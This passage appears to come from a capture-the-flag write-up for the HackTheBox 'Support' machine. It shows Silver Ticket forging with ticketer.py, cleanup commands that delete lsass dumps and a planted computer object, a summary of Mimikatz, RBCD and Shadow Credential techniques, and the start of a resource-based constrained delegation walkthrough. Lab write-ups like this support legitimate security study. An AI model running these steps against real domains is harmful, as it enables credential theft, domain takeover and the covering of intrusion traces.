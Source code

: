 ## 🥈 Silver Ticket Attack (SPN scoped)

### Generate ticket for CIFS only

```bash
ticketer.py -nthash <krbtgt_hash> -domain-sid <SID> -domain support.htb -user Administrator -spn cifs/dc.support.htb -dc-ip 10.10.11.174
export KRB5CCNAME=Administrator.ccache
smbclient.py -k support.htb/Administrator@dc.support.htb
```

> Silver tickets valid only for specific SPNs.

---

## 🧼 Cleanup Tips

```cmd
del C:\Temp\procdump.exe
del C:\Temp\lsass.dmp
dsrm "CN=RBCD,CN=Computers,DC=support,DC=htb"
```

---

## 🎯 Summary

- ✅ RBCD + getST.py = SYSTEM access
- ✅ pyWhisker ShadowCred = silent cert persistence (if PKINIT is enabled)
- ✅ Procdump + Mimikatz = grab hashes
- ✅ ticketer.py = craft Golden/Silver Ticket

**Use this flow as an OSCP-ready template.**
___

METHOD : 2
### Enumeration

Looking at the Bloodhound data again, the support user is a member of the Shared Support Accounts group, which has `GenericAll` on the computer object, DC.SUPPORT.HTB:

![image-20220527143212616](https://0xdfimages.gitlab.io/img/image-20220527143212616.png)

### Get Domain TGT

[This video](https://www.youtube.com/watch?v=RUbADHcBLKg) from SpectorOps shows how to abuse this privilege to get full domain access, and is worth a watch:

[This Gist](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1) also has the commands.

I’m going to abuse resource-based constrained delegation. First I’ll add a fake computer to the domain under my control. Then I can act as the DC to request Kerberos tickets for the fake computer giving the ability to impersonate other accounts, like Administrator. For this to work, I’ll need an authenticated user who can add machines to the domain (by default, any user can add up to 10). This is configured in the `ms-ds-machineaccountquota` attribute, which needs to be larger than 0. Finally, I need write privileges over a domain joined computer (which `GenericALL` on the DC gets me.)
